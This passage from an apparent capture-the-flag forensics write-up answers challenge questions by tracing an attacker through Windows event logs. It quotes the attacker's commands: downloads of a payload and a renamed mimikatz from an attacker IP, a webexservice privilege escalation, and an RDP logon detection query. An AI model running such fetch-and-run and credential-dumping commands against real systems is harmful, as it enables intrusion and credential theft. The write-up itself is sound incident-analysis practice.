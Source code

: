 `192.168.247.175:4444`

### Question 3
What was the first command executed by the attacker?

* (answer is a single word) `whoami`

Searching for `cookie_recipe` and looking at timestamps, the first action after
`Tue Nov 19 05:24:04 2019` that we saw above is `C:\Windows\system32\cmd.exe /c "whoami "`

### Question 4
What is the one-word service name the attacker used to escalate privileges?

* Answer `webexservice`

```
C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri
    http://192.168.247.175/cookie_recipe2.exe -OutFile cookie_recipe2.exe "

C:\Windows\system32\cmd.exe /c "sc start webexservice a software-update 1 
wmic process call create "cmd.exe /c C:\Users\minty\Downloads\cookie_recipe2.exe" "
```

### Question 5
What is the file-path + filename of the binary ran by the attacker to dump
credentials?

* Answer `C:\cookie.exe`

```powershell
C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri
https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20190813/mimikatz_trunk.zip
-OutFile cookie.zip "
```

Searching for `mimikatz` we find another event. It says the original filename of
`cookie.exe` was `mimikatz`. It was renamed.

`C:\Windows\system32\cmd.exe /c "Invoke-WebRequest -Uri http://192.168.247.175/mimikatz.exe -OutFile C:\cookie.exe "`

### Question 6
The attacker pivoted to another workstation using credentials gained from
Minty's computer. Which account name was used to pivot to another machine?

* Answer `alabaster`

https://www.jpcert.or.jp/english/pub/sr/20170612ac-ir_research_en.pdf

```
event ID `4624`
LogonType: 10 == remote == RDP - Logon Type 10 – RemoteInteractive

EventID:4624 AND LogonType:10
```

There is only one event at `06:04:28`.
